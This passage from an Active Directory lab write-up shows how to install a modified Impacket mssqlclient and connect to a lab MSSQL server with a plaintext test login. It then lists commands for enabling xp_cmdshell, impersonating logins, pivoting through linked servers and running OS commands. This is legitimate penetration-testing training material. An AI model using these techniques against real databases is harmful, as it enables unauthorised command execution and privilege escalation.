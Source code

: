 - As we can see we got an access to the database

### Impacket

- To enumerate and use impacket mssql, i made a modified version of the example mssqlclient.py.
- You can find the version [here](https://github.com/SecureAuthCorp/impacket/pull/1397)

- The install is just like what we done in part5 merge the PR on your local impacket project and relaunch install:

```bash
cd /opt/tools
git clone https://github.com/SecureAuthCorp/impacket myimpacket
cd myimpacket
python3 -m virtualenv myimpacket
source myimpacket/bin/activate
git fetch origin pull/1397/head:1397
git merge 1397
python3 -m pip install .
```

- We connect to the mssql server with the following command :

```bash
python3 mssqlclient.py -windows-auth north.sevenkingdoms.local/samwell.tarly:Heartsbane@castelblack.north.sevenkingdoms.local
```

- And type help:
```
     lcd {path}                 - changes the current local directory to {path}
     exit                       - terminates the server process (and this session)
     enable_xp_cmdshell         - you know what it means
     disable_xp_cmdshell        - you know what it means
     enum_db                    - enum databases
     enum_links                 - enum linked servers
     enum_impersonate           - check logins that can be impersonate
     enum_logins                - enum login users
     enum_users                 - enum current db users
     enum_owner                 - enum db owner
     exec_as_user {user}        - impersonate with execute as user
     exec_as_login {login}      - impersonate with execute as login
     xp_cmdshell {cmd}          - executes cmd using xp_cmdshell
     xp_dirtree {path}          - executes xp_dirtree on the path
     sp_start_job {cmd}         - executes cmd using the sql server agent (blind)
     use_link {link}            - linked server to use (set use_link localhost to go back to local or use_link .. to get back one step)
     ! {cmd}                    - executes a local shell cmd
     show_query                 - show query
     mask_query                 - mask query
```

- I added some new entries to the database : enum_db/enum_links/enum_impersonate/enum_login/enum_owner/exec_as_user/exec_as_login/use_link/show_query/mask_query

- Let's start the enumeration :
